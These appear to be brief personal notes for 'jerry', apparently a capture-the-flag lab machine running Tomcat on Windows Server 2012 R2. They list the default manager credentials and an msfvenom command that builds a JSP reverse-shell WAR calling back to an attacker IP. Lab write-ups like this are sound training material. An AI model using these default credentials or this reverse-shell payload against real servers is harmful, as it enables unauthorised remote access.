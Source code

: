 # jerry

- Windows Server 2012 R2 (OS Version = 6.3)
- JVM Version 1.8.0\_171-b11
- Credentials
  - Control panel creds: `admin:admin`
  - Manager GUI: `tomcat:s3cret`
- Generating reverse shell application
  - `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.X LPORT=9090 -f war > shell.war`

